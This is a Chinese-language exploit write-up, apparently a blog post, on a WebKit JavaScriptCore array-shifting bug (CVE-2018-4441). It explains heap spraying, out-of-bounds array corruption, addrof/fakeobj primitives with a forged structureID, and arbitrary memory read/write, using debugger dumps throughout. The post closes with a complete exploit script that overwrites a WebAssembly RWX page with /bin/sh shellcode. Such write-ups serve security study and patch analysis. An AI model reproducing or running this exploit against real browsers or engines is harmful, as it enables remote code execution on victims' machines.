1 2 3 4 5 6 7 8 9 10 11 pwndbg> x/20xg 0x7ff000287a78-0x40 0x7ff000287a38: 0x00000000badbeef0 0x00000000badbeef0 0x7ff000287a48: 0x00000000badbeef0 0x00000000badbeef0 0x7ff000287a58: 0x00000000badbeef0 0x00000002fffffff0 0x7ff000287a68: 0x0000000000000000 0xfffffff000000006 0x7ff000287a78: 0x00000000badbeef0 0x0000000000000000 0x7ff000287a88: 0x00000000badbeef0 0x00000000badbeef0 0x7ff000287a98: 0x00000000badbeef0 0x00000000badbeef0 0x7ff000287aa8: 0x00000000badbeef0 0x00000000badbeef0 0x7ff000287ab8: 0x00000000badbeef0 0x00000000badbeef0 0x7ff000287ac8: 0x00000000badbeef0 0x00000000badbeef0
被覆盖前的堆喷数组
1 2 3 4 5 6 7 8 9 10 11 pwndbg> x/20xg 0x7fe00028c078-0x40 0x7fe00028c038: 0x00007fffb1c69c00 0x00007fffb1c69c40 0x7fe00028c048: 0x00007fffb1c69c80 0x00007fffb1c69cc0 0x7fe00028c058: 0x0000000000000000 0x0000000000000000 0x7fe00028c068: 0x0000000000000000 0x0000000d0000000a //length 0x7fe00028c078: 0x0000000000001337 0x402abd70a3d70a3d 0x7fe00028c088: 0x402abd70a3d70a3d 0x402abd70a3d70a3d 0x7fe00028c098: 0x402abd70a3d70a3d 0x402abd70a3d70a3d 0x7fe00028c0a8: 0x402abd70a3d70a3d 0x402abd70a3d70a3d 0x7fe00028c0b8: 0x402abd70a3d70a3d 0x40c735af5c28f5c3 0x7fe00028c0c8: 0x7ff8000000000000 0x7ff8000000000000
被覆盖后的堆喷数组
1 2 3 4 5 6 7 8 9 10 11 pwndbg> x/20xg 0x7fe00028c078-0x40 0x7fe00028c038: 0x00007fffb1a65c40 0x00007fffb1a65c80 0x7fe00028c048: 0x00007fffb1a65cc0 0x0000000000000000 0x7fe00028c058: 0x0000000000000000 0x0000000000000000 0x7fe00028c068: 0x0000000d0000000a 0x0000000000001337 //length 0x7fe00028c078: 0x402abd70a3d70a3d 0x402abd70a3d70a3d 0x7fe00028c088: 0x402abd70a3d70a3d 0x402abd70a3d70a3d 0x7fe00028c098: 0x402abd70a3d70a3d 0x402abd70a3d70a3d 0x7fe00028c0a8: 0x402abd70a3d70a3d 0x402abd70a3d70a3d 0x7fe00028c0b8: 0x40c735af5c28f5c3 0x7ff8000000000000 0x7fe00028c0c8: 0x7ff8000000000000 0x7ff8000000000000
到这里我们就可以控制一个可以越界访问的ArrayWithDouble类型数组spray[i]了，通过搜索内存找到length不为0xa的堆喷数组进而可以构造addrof和fakeobj原语。
arbitrary code execute lokihardt构造任意地址读写原语的思路是构造一个ArrayWithDouble的数组victim，利用漏洞版本jsc相同数据类型structureID并不会随机化并根据i32和f64在内存中存储位置相同构造fake structureID，构造ArrayWithArrayStorage类型的fakeobj记为hax使hax的butterfly指向victim，通过修改hax[1]即victim的butterfly为addr同时修改victim的prop实现任意地址读写。
fake structureID 构造victim
1 2 3 4 victim = [1.1]; victim[0] =3.3; victim['prop'] = 13.37; victim['prop'+1] = 13.37;
victim = [1.1]此时构造的victim的类型为CopyOnWriteArrayWithDouble，victim[0] =3.3重新分配butterfly并修改victim类型为ArrayWithDouble。jsc中这两种类型并不一样。ArrayWithDouble的victim存储如下，可以看到prop存储在*(dword*)(butterfly-0x10)的位置。
1 2 3 4 5 6 7 8 9 10 11 12 13 [*] victim: --> Object: 0x7fffb1a551f0 with butterfly 0x7ff000280058 (Structure 0x7fffb3070d90:[Array, {prop:100, prop1:101}, ArrayWithDouble, Proto:0x7fffb30c80a0, Leaf]), StructureID: 318 pwndbg> x/6xg 0x7fffb1a551f0 0x7fffb1a551f0: 0x010821070000013e 0x00007ff000280058 0x7fffb1a55200: 0x00000000badbeef0 0x00000000badbeef0 0x7fffb1a55210: 0x00000000badbeef0 0x00000000badbeef0 pwndbg> x/10xg 0x00007ff000280058-0x20 0x7ff000280038: 0x0000000000000000 0x402bbd70a3d70a3d 0x7ff000280048: 0x402bbd70a3d70a3d 0x0000000100000001 0x7ff000280058: 0x400a666666666666 0x00000000badbeef0 0x7ff000280068: 0x00000000badbeef0 0x00000000badbeef0 0x7ff000280078: 0x00000000badbeef0 0x00000000badbeef0
构造fakeobj
1 2 3 4 5 6 i32[0]=100; i32[1]=0x01082107 - 0x10000; var container={ jscell:f64[0], butterfly:victim, }
需要注意在jsc中构造fakeobj时需要绕过structureID，structureID相同的才具有相同methodTable并被jsc视为相同类型。漏洞版本的jsc并不会在每次启动时随机化相同数据类型的structureID，这里lokihardt把structureID初始化为了0x64即arr的ArrayWithArrayStorage类型。这里fakeobj的类型是固定的，构造ArrayWithArrayStorage类型hax的原因是ArrayWithArrayStorage的数据直接存储在butterfly里，我们可以访问到的hax[1]即为victim的butterfly。
1 2 3 4 5 [*] arr: --> Object: 0x7fffb30b4370 with butterfly 0x7fe0000fe948 (Structure 0x7fffb30f2b50:[Array, {}, ArrayWithArrayStorage, Proto:0x7fffb30c80a0, Leaf]), StructureID: 100 [*] hax: --> Object: 0x7fffb30c8390 with butterfly 0x7fffb1a551f0 (Structure 0x7fffb30f2b50:[Array, {}, ArrayWithArrayStorage, Proto:0x7fffb30c80a0, Leaf]), StructureID: 100
漏洞版本的jsc在解析如下代码时保存i32和f64内容的位置实际上是相同的（这里我是调试发现的，可能是因为WastefulTypedArray类型？下文有jsc中WastefulTypedArray类型的存储方式解释）。
1 2 3 var conversion_buffer = new ArrayBuffer(8) var f64 = new Float64Array(conversion_buffer) var i32 = new Uint32Array(conversion_buffer)
存储结构
1 2 3 4 5 6 [*] i32 --> Object: 0x7fffb30c8360 with butterfly 0x7fe0000e0018 (Structure 0x7fffb3070a80:[Uint32Array, {}, NonArray, Proto:0x7fffb30b4360, Leaf]), StructureID: 311 [*] f64 --> Object: 0x7fffb30c8340 with butterfly 0x7fe0000e0008 (Structure 0x7fffb30707e0:[Float64Array, {}, NonArray, Proto:0x7fffb30b4350, Leaf]), StructureID: 305 [*] conversion_buffer: --> Object: 0x7fffb30c8320 with butterfly (nil) (Structure 0x7fffb30f3640:[ArrayBuffer, {}, NonArray, Proto:0x7fffb30c81e0, Leaf]), StructureID: 125
这里i32和f64的butterfly存储的都不是它们的实际内容，实际存储i32和f64内容的位置位于*(dword*)(i32+0x10)即0x00007fe8000ff000里
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 pwndbg> x/20xg 0x7fffb30c8320 0x7fffb30c8320: 0x010023000000007d 0x0000000000000000 0x7fffb30c8330: 0x00007ffff3a8a600 0x00000000badbeef0 0x7fffb30c8340: 0x01082c0000000131 0x00007fe0000e0008 0x7fffb30c8350: 0x00007fe8000ff000 0x0000000200000001 0x7fffb30c8360: 0x01082a0000000137 0x00007fe0000e0018 0x7fffb30c8370: 0x00007fe8000ff000 0x0000000200000002 0x7fffb30c8380: 0x0100160000000140 0x0000000000000000 0x7fffb30c8390: 0x0001000000001337 0x00007fffb1c551f0 0x7fffb30c83a0: 0x00000000badbeef0 0x00000000badbeef0 0x7fffb30c83b0: 0x00000000badbeef0 0x00000000badbeef0 pwndbg> x/20xg 0x00007fe0000e0008-0x40 0x7fe0000dffc8: 0x0000000000000000 0x0000000000000000 0x7fe0000dffd8: 0x0000000000000000 0x0000000000000000 0x7fe0000dffe8: 0x0000000000000000 0x0000000000000000 0x7fe0000dfff8: 0x00000000badbeef0 0x00007ffff3a8a600 0x7fe0000e0008: 0x00000000badbeef0 0x00007ffff3a8a600 0x7fe0000e0018: 0x00000000badbeef0 0x00000000badbeef0 0x7fe0000e0028: 0x00000000badbeef0 0x00000000badbeef0 0x7fe0000e0038: 0x00000000badbeef0 0x00000000badbeef0 0x7fe0000e0048: 0x00000000badbeef0 0x00000000badbeef0 0x7fe0000e0058: 0x00000000badbeef0 0x00000000badbeef0 pwndbg> x/10xg 0x00007fe8000ff000-0x10 0x7fe8000feff0: 0x0000000000000000 0x0000000000000000 0x7fe8000ff000: 0x0000000000001337 0x0000000000000000 0x7fe8000ff010: 0x0000000000000000 0x0000000000000000 0x7fe8000ff020: 0x0000000000000000 0x0000000000000000 0x7fe8000ff030: 0x0000000000000000 0x0000000000000000
而且经过调试可以发现container中保存exp中jscell位置的值比i32中高8位的值大0x10000，所以exp中i32高8位-0x10000。
1 2 3 4 5 6 7 8 9 [*] container: --> Object: 0x7fffb30c8380 with butterfly (nil) (Structure 0x7fffb3070e70:[Object, {jscell:0, butterfly:1}, NonArray, Proto:0x7fffb30b4000, Leaf]), StructureID: 320 pwndbg> x/10xg 0x7fffb30c8380 0x7fffb30c8380: 0x0100160000000140 0x0000000000000000 0x7fffb30c8390: 0x0001000000001337 0x00007fffb1c551f0 0x7fffb30c83a0: 0x00000000badbeef0 0x00000000badbeef0 0x7fffb30c83b0: 0x00000000badbeef0 0x00000000badbeef0 0x7fffb30c83c0: 0x00000000badbeef0 0x00000000badbeef0
关于i32和f64使用相同内存存储，在JSArrayBufferView.h中有解释WastefulTypedArray类型的存储，WastefulTypedArray类型的butterfly并不包含vector。
1 2 3 4 5 // A typed array that was used in some crazy way. B's IndexingHeader // is hijacked to contain a reference to the native array buffer. The // native typed array view points back to the JS view. V points to a // vector allocated using who-knows-what, and M = WastefulTypedArray. // The view does not own the vector.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 pwndbg> p *(JSC::JSArrayBufferView*)0x7fffb30c8340 $1 = { ...... m_vector = { static kind = Gigacage::Primitive, m_barrier = { m_value = { static kind = Gigacage::Primitive, m_ptr = 0x7fe8000ff000 } } }, m_length = 1, m_mode = JSC::TypedArrayMode::WastefulTypedArray }
arbitrary read/write 这样构造的container如下
1 2 3 4 5 6 7 8 9 [*] container: --> Object: 0x7fffb30c8380 with butterfly (nil) (Structure 0x7fffb3070e70:[Object, {jscell:0, butterfly:1}, NonArray, Proto:0x7fffb30b4000, Leaf]), StructureID: 320 [*] victim: --> Object: 0x7fffb1a551f0 with butterfly 0x7ff000280058 (Structure 0x7fffb3070d90:[Array, {prop:100, prop1:101}, ArrayWithDouble, Proto:0x7fffb30c80a0, Leaf]), StructureID: 318 pwndbg> x/6xg 0x7fffb30c8380 0x7fffb30c8380: 0x0100160000000140 0x0000000000000000 0x7fffb30c8390: 0x0108210700000064 0x00007fffb1a551f0 0x7fffb30c83a0: 0x00000000badbeef0 0x00000000badbeef0
即*(dword*)(container+0x10)的位置为伪造的ArrayWithArrayStorage类型数组，fakeobj(container+0x10)构造butterfly为victim的fakeobj记hax。
1 2 [*] hax: --> Object: 0x7fffb30c8390 with butterfly 0x7fffb1a551f0 (Structure 0x7fffb30f2b50:[Array, {}, ArrayWithArrayStorage, Proto:0x7fffb30c80a0, Leaf]), StructureID: 100
这时内存的存储结构为hax.butterfly->victim，其中ArrayWithArrayStorage类型的数据直接存放在butterfly里，hax的butterfly可以通过hax[1]访问修改，victim.prop也可以修改，由于ArrayWithDouble类型数据的prop存放在*(dword*)(butterfly-0x10)的位置，我们修改hax.butterfly为addr+0x10即可实现addr处的任意地址读写。
1 2 3 4 5 6 7 8 read64: function(addr){ hax[1] = i2f(addr + 0x10); return addrof(victim.prop); }, write64: function(addr,data){ hax[1] = i2f(addr+0x10); victim.prop = fakeobj(data); }
这里的addrof和fakeobj的作用实际上是读写相应位置的数和进制转换。
有了任意地址读写的原语我们就可以通过覆盖wasm的rwx内存执行shellcode。
1 2 3 4 5 6 7 8 9 10 11 12 var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]); var wasm_mod = new WebAssembly.Module(wasm_code); var wasm_instance = new WebAssembly.Instance(wasm_mod); var f = wasm_instance.exports.main; addr_f = addrof(f); var addr_p = this.read64(addr_f + 0x40); var addr_shellcode = this.read64(addr_p); print("0x"+addr_f.toString(16)) print("0x"+addr_p.toString(16)) print("0x"+addr_shellcode.toString(16)); shellcode = "j;X\x99RH\xbb//bin/shST_RWT^\x0f\x05" this.write(addr_shellcode, shellcode);
这里的wasm_code作用是调用wasm模块生成一个用于保存机器码的rwx的页，内容并不重要。js引擎实现wasm的方法一般是先用汇编初始化wasm模块，然后跳转到rwx的页面执行真正用户调用的内容；js引擎在执行用户调用的wasm时需要找到保存这段字节码的页面，rwx的页面地址会或隐式或显示地保存在内存里，我们只需要调试找到rwx页面的地址并覆盖其内容即可。
完整exp 这里的exp较lokihardt的原版有修改，去掉了lokihardt利用unboxed2和boxed2指向相同内存构造第二个fakeobj和addrof原语的部分（作者认为这一部分或许是lokihardt为了显示OOB这类漏洞的另一种通用构造fakeobj、addrof原语的方法，但是并不是必要的，去掉更容易理解而且并不影响exp的稳定性）
lokihardt的原exp：
https://github.com/rtfingc/cve-repo/blob/master/0x05-lokihardt-webkit-cve-2018-4441-shiftCountWithArrayStorage/exp.js
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 var conversion_buffer = new ArrayBuffer(8) var f64 = new Float64Array(conversion_buffer) var i32 = new Uint32Array(conversion_buffer) var BASE32 = 0x100000000 function f2i(f) { f64[0] = f return i32[0] + BASE32 * i32[1] } function i2f(i) { i32[0] = i % BASE32 i32[1] = i / BASE32 return f64[0] } function user_gc() { for (let i = 0; i < 10; i++) { let ab = new ArrayBuffer(1024 * 1024 * 10); } } let arr = [1]; arr.length = 0x100000; arr.splice(0, 0x11); arr.length = 0xfffffff0; let spray = new Array(0x3000); for (let i = 0; i < 0x3000; i += 2) { spray[i] = [13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37+i]; spray[i+1] = [{},{},{},{},{},{},{},{},{},{}]; } for (let i = 0; i < 0x3000; i += 2) spray[i][0] = i2f(0x1337) arr.splice(0x1000,0,1); fake_index=-1; for(let i=0;i<0x3000;i+=2){ if(spray[i].length!=10){ print("hit: "+i.toString(16)); fake_index=i; break; } } unboxed = spray[fake_index]; boxed = spray[fake_index+1]; function addrof(obj){ boxed[0] = obj; return f2i(unboxed[14]); } function fakeobj(addr){ unboxed[14] = i2f(addr); return boxed[0]; } victim = [1.1]; victim[0] =3.3;; victim['prop'] = 13.37; victim['prop'+1] = 13.37; i32[0]=100; i32[1]=0x01082107 - 0x10000; var container={ jscell:f64[0], butterfly:victim, } container_addr = addrof(container); hax = fakeobj(container_addr+0x10); var stage2={ read64: function(addr){ hax[1] = i2f(addr + 0x10); return addrof(victim.prop); }, write64: function(addr,data){ hax[1] = i2f(addr+0x10); victim.prop = fakeobj(data); }, write: function(addr, shellcode) { var theAddr = addr; for(var i=0;i<shellcode.length;i++){ this.write64(addr+i,shellcode[i].charCodeAt()) } }, pwn: function(){ var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]); var wasm_mod = new WebAssembly.Module(wasm_code); var wasm_instance = new WebAssembly.Instance(wasm_mod); var f = wasm_instance.exports.main; addr_f = addrof(f); var addr_p = this.read64(addr_f + 0x40); var addr_shellcode = this.read64(addr_p); print("0x"+addr_f.toString(16)) print("0x"+addr_p.toString(16)) print("0x"+addr_shellcode.toString(16)); shellcode = "j;X\x99RH\xbb//bin/shST_RWT^\x0f\x05" this.write(addr_shellcode, shellcode); f(); } } stage2.pwn()

参考链接 saelo的jsc利用知识
http://phrack.org/papers/attacking_javascript_engines.html
js引擎的shape和inline cache
https://mathiasbynens.be/notes/shapes-ics
lokihardt提交的漏洞
https://bugs.chromium.org/p/project-zero/issues/detail?id=1685
lokihardt的exp
https://github.com/rtfingc/cve-repo/blob/master/0x05-lokihardt-webkit-cve-2018-4441-shiftCountWithArrayStorage/exp.js